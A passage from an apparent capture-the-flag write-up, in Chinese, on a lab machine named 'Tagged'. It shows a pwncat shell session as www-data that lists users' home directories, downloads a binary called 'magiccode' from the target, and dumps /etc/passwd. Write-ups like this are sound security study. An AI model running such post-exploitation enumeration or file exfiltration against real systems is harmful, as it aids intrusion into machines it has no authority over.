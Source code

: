```bash
(remote) www-data@tagged:/home$ cd uma
(remote) www-data@tagged:/home/uma$ ls -la
total 24
drwxr-xr-x 2 uma  uma  4096 Nov 14  2022 .
drwxr-xr-x 4 root root 4096 Nov 14  2022 ..
-rw------- 1 uma  uma    52 Nov 14  2022 .Xauthority
lrwxrwxrwx 1 uma  uma     9 Nov 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 uma  uma   220 Nov 14  2022 .bash_logout
-rw-r--r-- 1 uma  uma  3526 Nov 14  2022 .bashrc
-rw-r--r-- 1 uma  uma   807 Nov 14  2022 .profile
(remote) www-data@tagged:/home/uma$ cd ../shyla/
(remote) www-data@tagged:/home/shyla$ ls -la
total 2856
drwxr-xr-x 3 shyla shyla    4096 Nov 14  2022 .
drwxr-xr-x 4 root  root     4096 Nov 14  2022 ..
lrwxrwxrwx 1 shyla shyla       9 Nov 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 shyla shyla     220 Nov 14  2022 .bash_logout
-rw-r--r-- 1 shyla shyla    3526 Nov 14  2022 .bashrc
drwxr-xr-x 3 shyla shyla    4096 Nov 14  2022 .local
-rw-r--r-- 1 shyla shyla     807 Nov 14  2022 .profile
-rw-r--r-- 1 shyla shyla      66 Nov 14  2022 .selected_editor
-rwxr-xr-x 1 shyla shyla 2887781 Nov 14  2022 magiccode
-rw------- 1 shyla shyla      13 Nov 14  2022 user.txt
(remote) www-data@tagged:/home/shyla$ file magiccode 
magiccode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=64S6_nwugG3_G5eg4W47/N9jZMz6Tf8jSquz3zHWZ/m2G1xxhQAmuoXQo5mOBM/6EluGNnXWpMQ6kk7GEnO, with debug_info, not stripped
(remote) www-data@tagged:/home/shyla$ 
(local) pwncat$ lpwd
/home/kali/temp/Tagged
(local) pwncat$ download magiccode
magiccode ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.9/2.9 MB • 9.3 MB/s • 0:00:00[04:52:15] downloaded 2.89MiB in 0.40 seconds
```

![image-20240413165421385](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729309.png)

好复杂，先不搞这个。。。。

```bash
(remote) www-data@tagged:/home/shyla$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```